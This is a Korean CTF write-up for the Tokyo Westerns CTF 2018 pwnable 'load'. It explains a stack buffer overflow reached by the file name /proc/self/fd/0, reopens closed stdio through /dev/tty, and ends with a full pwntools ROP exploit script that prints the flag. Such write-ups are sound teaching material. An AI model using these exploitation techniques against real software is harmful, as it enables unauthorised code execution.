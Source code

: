 +++
title = "Tokyo Westerns CTF 2018 - load"
date = "2024-07-10"
description = "Tokyo Westerns CTF 2018 pwnable challenge"

[taxonomies]
tags = ["ctf", "pwnable", "file descriptor", "/dev/tty"]
+++
## 0x00. Introduction

``` bash
[*] '/home/user/load'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

## 0x01. Vulnerability

``` c
int __fastcall load_file_4008FD(void *buf, const char *file_name, __off_t offset, size_t size)
{
  int fd; // [rsp+2Ch] [rbp-4h]

  fd = open(file_name, 0);
  if ( fd == -1 )
    return puts("You can't read this file...");
  lseek(fd, offset, 0);
  if ( read(fd, buf, size) > 0 )
    puts("Load file complete!");
  return close(fd);
}
```

`load_file_4008FD()`를 보면 입력받은 파일명을 `open`해서 내용을 `size`만큼 읽은 후 `main()`의 `buf` 변수에 써준다.

이 때 `file_name`을 `/proc/self/fd/0`으로 조작해준다면, 파일의 내용을 읽는 것이 아닌 `stdin`을 읽어서 `buf`에 쓰는 꼴이 된다.

``` c
  char buf[32]; // [rsp+0h] [rbp-30h] BYREF
  size_t size; // [rsp+20h] [rbp-10h]
  __off_t offset; // [rsp+28h] [rbp-8h]
```

`main()`의 `buf`는 `rbp-0x30`에 위치해있고 원하는 만큼 `size`를 입력할 수 있으니 BOF 취약점이 발생한다.

## 0x02. Exploit

BOF 취약점이 있으니 libc leak을 하려고 했는데 PLT가 있는 `puts()`든 `_printf_chk()`든 이상하게 출력이 안됐다.

그래서 디버깅을 해보니 `puts()`의 리턴 값이 `-1`인 것을 확인했고, 뭔가 에러가 발생했음을 알았다.

언제 이런 에러가 발생하는지 찾아보다가 `stdout`에 문제가 생기면 그럴 수 있다는 정보를 찾아서 확인해보니...

``` c
int close_4008D8()
{
  close(0);
  close(1);
  return close(2);
}
```

`load_file_4008FD()`이 끝난 후 `main()`이 종료되기 전에 `close_4008D8()`라는 함수가 호출되는데, 여기에서 `stdout`을 close해버린다.

그래서 구글링을 열심히 해보니 `/dev/tty`를 `open`하면 다시 `stdout`을 살릴 수 있다는 것을 알았다.

문제는 `/dev/tty`를 어디에 넣어놓고 `open()`에 전달할 것이냐인데, BOF 취약점을 트리거하기 위해 `file_name`에 `/proc/self/fd/0`을 넣는 과정에서 `\x00`을 하나 추가하고 `/dev/tty`를 전달하면 될 것 같았다.

``` python
    # open("/dev/tty", O_RDWR | O_CREAT)
    payload_open = p64(ppr)
    payload_open += p64(66)                     # pop rsi
    payload_open += p64(0)                      # pop r15
    payload_open += p64(pr)
    payload_open += p64(bp['file_name'] + 0x10) # pop rdi
    payload_open += p64(elf.plt['open'])
```

위 payload를 ROP chain에 3번 넣어서 `/proc/self/fd/`에 순서대로 0, 1, 2가 생성되는 것을 확인했다.

이렇게 leak을 하는데에는 성공했으나 `stdin`을 살렸음에도 다음 playoad를 전송하는 것에 실패했다.

그래서 고민이 됐던게 leak을 해봤자 다음 입력을 줄 수가 없으므로 한번에 입력을 줘서 flag를 `open` -> `read` -> `write`를 다 시켜야하는데 `rdx` 관련 가젯이 없다.

그러면 `read`의 세 번째 인자인 `size` 컨트롤이 불가능하기 때문에 `open("flag", 'r');`을 한 이후의 `rdx` 값이 내용을 읽어오기에 충분히 큰 값이기를 기도해야하는데...

실제로 확인해보니 `open`이 종료되고 난 `rdx` 값이 0이었다.

어떻게 출력을 할지 한참을 고민하다가...

``` c
  load_file_4008FD(buf, byte_601040, offset, size);
```

마침 동일한 로직을 수행하는 함수가 코드 영역에 있었다!

-   `rdi` : pop rdi; ret; 가젯 활용, free space인 byte_601040
-   `rsi` : pop rsi; pop r15; ret; 가젯 활용, BOF 트리거 할 때 넣은 "flag" 위치
-   `rdx` : open 종료 후 0
-   `rcx` : open 종료 후 0x00007ffff7e9e53b (충분히 큰 값)

이런식으로 레지스터를 컨트롤해주면 `flag`를 출력할 수 있었다.

## 0x03. Payload

``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
import sys

DEBUG = True
BINARY = "load"
LIBRARY = "libc.so.6"

pr = 0x0000000000400a73
ppr = 0x0000000000400a71
bp = {
    'read_of_load_file' : 0x400966,
    'main' : 0x400817,
    'end_of_main' : 0x4008A8,
    'close' : 0x4008D8,
    'read_str' : 0x400986,
    'file_name' : 0x601040,
    'load_file' : 0x4008FD,
}

gs = f'''
continue
'''
context.terminal = ['tmux', 'splitw', '-hf']

def send_msg(s, msg):
    print(s.recvuntil(b": "))
    s.sendline(msg.encode())

def main():
    if(len(sys.argv) > 1):
        s = process(BINARY)
    else:
        s = process(BINARY)
        if DEBUG:
            gdb.attach(s, gs)
    elf = ELF(BINARY)
    lib = ELF(LIBRARY)

    send_msg(s, "/proc/self/fd/0\x00/dev/tty\x00flag\x00")
    send_msg(s, "0")
    send_msg(s, "1024")

    payload = b"A" * 0x30
    payload += b"B" * 8

    # open("/dev/tty", O_RDWR | O_CREAT)
    payload_open = p64(ppr)
    payload_open += p64(66)                     # pop rsi
    payload_open += p64(0)                      # pop r15
    payload_open += p64(pr)
    payload_open += p64(bp['file_name'] + 0x10) # pop rdi
    payload_open += p64(elf.plt['open'])

    # open 3 times -> open 0, 1, 2
    payload += payload_open * 3

    # load_file_4008FD(byte_601040, "flag", offset, size)
    payload += p64(ppr)
    payload += p64(bp['file_name'] + 0x19)      # pop rsi
    payload += p64(0)                           # pop r15
    payload += p64(pr)
    payload += p64(bp['file_name'])             # pop rdi
    payload += p64(bp['load_file'])

    # puts(byte_601040)
    payload += p64(pr)
    payload += p64(bp['file_name'])             # pop rdi
    payload += p64(elf.plt['puts'])

    log.info(f"payload length : {hex(len(payload))}")
    s.sendline(payload)
    pause()
    print(s.recv().split(b"\n")[2])

if __name__=='__main__':
    main()
```
